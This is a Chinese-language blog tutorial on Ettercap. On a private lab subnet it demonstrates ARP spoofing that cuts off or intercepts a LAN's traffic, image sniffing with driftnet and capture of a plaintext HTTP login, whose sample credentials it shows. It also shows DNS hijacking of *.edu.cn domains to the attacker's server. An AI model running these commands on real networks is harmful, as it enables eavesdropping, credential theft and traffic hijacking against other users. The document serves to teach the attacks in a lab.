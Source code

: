 ```yaml
---
title: Ettercap 简易入门
date: 2019-07-20 00:03:58
tags:
  - Kali
  - 实践记录
  - DNS
  - 网络
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Ettercap/0.jpg
---
```


关于 Ettercap 的有趣例子。

<!--more-->

## 安装与配置

安装很容易：

```shell
$ apt install ettercap-text-only
```

使用前需要修改配置，给予 Ettercap 足够的权限。配置文件位于 `/etc/ettercap/etter.conf`，找到：

```
[priv]
ec_uid = 65500
ec_gid = 65500
```

将两个值都修改为 0，表示给予 root 权限。

另外，如果想嗅探 https 包则需要根据配置文件的提示去除指定的注释。我这里使用的是 Linux 系统，防火墙为 iptables，所以我取消注释了 177 和 178 两行。

```
# if you use iptables:
   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
```

## ARP 欺骗

我们知道，ARP 请求包是广播发送的，然而 ARP 应答包则是单播发送的。因此通过 Ettercap，我们可以在收到同一网段内的其它主机广播的 ARP 请求后，向它们发送 ARP 应答包，使它们认为我们的主机就是网关。这样一来，任何发送至外网的请求都将经过我们的主机。

如果我们成功实施了 ARP 欺骗，作为一个伪网关，就可以截获同网段内所有发送至外网的流量。我们可以选择不再将这些数据包转发至外网，这将使得该网段内所有其它主机无法上网：

```shell
$ arpspoof -i eth0 -t 192.168.159.128 192.168.159.2
```

其中 `-i` 指定网卡接口，`-t` 指定要欺骗的目标主机，最后的 IP 地址是本网段内真正的网关地址。如何查看真正的网关地址呢？

简便的方法是直接查看当前连接的网络属性，里面会直接显示 `默认网关` 字段。另一种方法是 `traceroute 任意外网网址 `，这样第一跳的地址必定是网关地址。

```shell
$ traceroute baidu.com
traceroute to baidu.com (123.125.114.144), 30 hops max, 60 byte packets
 1  _gateway (192.168.159.2)  0.947 ms  0.819 ms  0.681 ms^C
```

结果：

![图 1]({{< param cdnPrefix >}}/Ettercap/0.jpg)

![图 2]({{< param cdnPrefix >}}/Ettercap/1.jpg)

或者，我们照常转发流量（这个操作由 Ettercap 自动完成），但是将数据包中的图片存储下来：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
$ driftnet -i eth0 -b -a -d pic
```

其中 `-T` 表示只使用命令行，`-q` 表示不显示具体数据包信息，`-M` 指定使用的模式，`///` 表示同网段下所有主机，`-b` 表示声音提醒，`-a` 保存图片，`-d` 指定保存目录。

由于 Ettercap 截获的是整个数据包，因此常常可以获取比图片更敏感的信息。举个例子，假设我们已经开始 ARP 欺骗：

```shell
$ ettercap -i eth0 -Tq -M arp:remote /// ///
```

这时，同网段主机访问了一个 http 网站并进行登录。我们可以在命令行看到：

![图 3]({{< param cdnPrefix >}}/Ettercap/2.jpg)

由于帐号和密码是明文传输的，我们可以轻易得到帐号 `10175101282` 和密码 `aaaaaa`。

## DNS 劫持

作为伪网关，我们当然也可以将一些域名解析到指定的 IP，实现 DNS 劫持。首先修改另一个配置文件 `/etc/ettercap/etter.dns`，在这里面可以输入域名匹配规则与解析规则，如:

```
*.edu.cn           A   192.168.159.135
```

可以看出，前面是一个类正则的域名匹配规则，然后中间指定 `A Record`，最后指定要解析到哪个 IP 地址上，这里我们使用了攻击者主机内网 IP。

保存后，我们在本机开一个服务器：

```shell
$ service apache2 start
```

然后开始 DNS 劫持：

```shell
$ ettercap -i eth0 -Tq -P dns_spoof /// ///
```

当受害者主机访问类似 [aaa.ecnu.edu.cn](#) 的域名时，将会看到我们的 Apache 服务器的默认页面，这样就完成了 DNS 劫持。命令行提示：

```
dns_spoof: A [aaa.ecnu.edu.cn] spoofed to [192.168.159.135]
```

结果：

![图 4]({{< param cdnPrefix >}}/Ettercap/3.jpg)

## 小结

显然上述攻击都有一个共同的前提，那就是攻击者和受害者处于同一网段。由此不难发现，局域网内的安全是十分脆弱的，这是由局域网内主机互相访问的便利性所带来的代价，而如何防护这类攻击是需要进一步思考的问题。
